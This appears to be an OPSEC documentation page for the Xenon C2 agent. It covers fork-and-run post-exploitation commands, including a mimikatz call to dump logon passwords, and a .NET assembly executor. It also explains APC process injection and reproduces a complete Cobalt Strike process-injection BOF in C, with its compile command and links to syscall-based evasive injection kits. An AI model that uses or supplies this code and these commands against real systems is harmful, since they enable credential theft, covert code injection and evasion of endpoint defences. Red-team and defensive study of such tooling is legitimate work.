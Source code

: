+++
title = "OPSEC"
chapter = false
weight = 20
pre = "<b>3. </b>"
+++

![logo](/agents/xenon/Xenon.png?width=600px)

## Fork & Run Commands
These commands spawn a sacrificial process to perform their actions and call `inject_shellcode` under the hood using donut-shellcode. 
They are compatible with Cobalt Strike's Process Injection Kits.

| Command                  | Usage                                                         | Description |
|--------------------------|---------------------------------------------------------------|-------------|
| `mimikatz`          | `mimikatz [args]`                                               | Execute mimikatz on the host. (e.g., mimikatz sekurlsa::logonpasswords) OPSEC Warning: Uses donut shellcode. |
| `execute_assembly` | `execute_assembly -Assembly [SharpUp.exe] [-Arguments [assembly arguments]]` | Execute a .NET Assembly in a remote processes and retrieve the output. OPSEC Warning: Uses donut shellcode. |

## Process Injection Kit
You can read about Cobalt Strike's Process Injection Kit [here](https://www.cobaltstrike.com/blog/process-injection-update-in-cobalt-strike-4-5).
It allows the operator to modify the default behavior for Fork & Run post-ex commands. This provided the flexibility needed and allowed operators to Bring Your Own Process Injection.
Xenon's default process injection technique is the classic APC injection.
It follows a well signatured process of: `CreateProcess`, `VirtualAllocEx`, `WriteProcessMemory`, `VirtualProtectEx`, `QueueUserAPC`, and finally `ResumeThread`.

### Bring Your Own Process Injection
The command `register_process_inject_kit` allows you to enable a custom process injection technique in the running payload. Process Injection Kit's are implemented as Beacon Object Files (BOFs) and uploaded through the modal.

Currently only **PROCESS_INJECT_SPAWN** is supported which spawns a sacrificial process to perform process injection.

Here is a basic example from [Cobalt Strike](https://www.cobaltstrike.com/blog/process-injection-update-in-cobalt-strike-4-5):
```C
#include <windows.h>
#include "beacon.h"

/* is this an x64 BOF */
BOOL is_x64() {
#if defined _M_X64
   return TRUE;
#elif defined _M_IX86
   return FALSE;
#endif
}

/* See gox86 and gox64 entry points */
void go(char * args, int alen, BOOL x86) {
   STARTUPINFOA        si;
   PROCESS_INFORMATION pi;
   datap               parser;
   short               ignoreToken;
   char *              dllPtr;
   int                 dllLen;

   /* Warn about crossing to another architecture. */
   if (!is_x64() && x86 == FALSE) {
      BeaconPrintf(CALLBACK_ERROR, "Warning: inject from x86 -> x64");
   }
   if (is_x64() && x86 == TRUE) {
      BeaconPrintf(CALLBACK_ERROR, "Warning: inject from x64 -> x86");
   }

   /* Extract the arguments */
   BeaconDataParse(&parser, args, alen);
   ignoreToken = BeaconDataShort(&parser);
   dllPtr = BeaconDataExtract(&parser, &dllLen);

   /* zero out these data structures */
   __stosb((void *)&si, 0, sizeof(STARTUPINFO));
   __stosb((void *)&pi, 0, sizeof(PROCESS_INFORMATION));

   /* setup the other values in our startup info structure */
   si.dwFlags = STARTF_USESHOWWINDOW;
   si.wShowWindow = SW_HIDE;
   si.cb = sizeof(STARTUPINFO);

   /* Ready to go: spawn, inject and cleanup */
   if (!BeaconSpawnTemporaryProcess(x86, ignoreToken, &si, &pi)) {
      BeaconPrintf(CALLBACK_ERROR, "Unable to spawn %s temporary process.", x86 ? "x86" : "x64");
      return;
   }
   BeaconInjectTemporaryProcess(&pi, dllPtr, dllLen, 0, NULL, 0);
   BeaconCleanupProcess(&pi);
}

void gox86(char * args, int alen) {
   go(args, alen, TRUE);
}

void gox64(char * args, int alen) {
   go(args, alen, FALSE);
}
```
This example is essentially the same behavior as Xenon's default process injection method. It can be easily modified to change the injection behavior to something custom, and that's where the advantage is. Additionally, with `register_process_inject_kit` the injection behavior can be changed an infinite amount in the running payload without compiling a new payload.

You can compile this as a BOF with the following:
```
x86_64-w64-mingw32-gcc -o inject_spawn.x64.o -c inject_spawn.c 
```
Then register the new kit with the `register_process_inject_kit` command to the Mythic server. Now commands that call `inject_shellcode` will use your new process injection behavior!

### Examples
Here are some real-world examples of modified injection kits:
- [InjectKit](https://github.com/REDMED-X/InjectKit) - Indirect syscalls via the Tartarus' Gate method.
- [secinject](https://github.com/apokryptein/secinject) - Section Mapping Process Injection (secinject): Cobalt Strike BOF 
- [CB_process_Inject](https://github.com/vgeorgiev90/CB_process_Inject) - A simple process injection kit for cobalt strike based on syscalls 


